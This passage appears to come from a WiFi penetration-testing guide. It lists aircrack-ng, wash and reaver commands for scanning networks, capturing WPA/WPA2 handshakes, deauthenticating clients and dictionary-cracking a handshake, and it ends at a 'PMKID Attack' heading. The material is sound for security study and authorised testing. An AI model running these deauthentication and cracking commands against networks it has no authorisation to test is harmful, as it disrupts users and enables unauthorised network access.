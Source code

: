 Search for WiFi networks within your range:

```fundamental
airodump-ng --wps -w airodump_sweep_results wlan0mon

wash -a -i wlan0mon
```

\[Optional\] Install `reaver/wash` on WiFi Pineapple Mark VII:

```bash
opkg update && opkg install libpcap reaver
```

\[Optional\] Install `reaver/wash` on WiFi Pineapple Nano:

```bash
opkg update && opkg install libpcap && opkg -d sd install wash
```

Monitor a WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

If you specified the output file, don't forget to stop `airodump-ng` after you are done monitoring because it will fill up all your free storage space with a large PCAP file.

Use [Kismet](https://github.com/ivan-sincek/evil-twin#additional-kismet) or WiFi Pineapple to find more information about wireless access points, e.g. their MAC address, vendor's name, etc.

Check if a wireless interface supports packet injection:

```fundamental
aireplay-ng --test wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

## 3. Cracking

### WPA/WPA2 Handshake

Monitor a WiFi network to capture a WPA/WPA2 4-way handshake:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from a WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Start the dictionary attack against a WPA/WPA2 handshake:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF -w rockyou.txt airodump_essid_results*.cap
```

## PMKID Attack
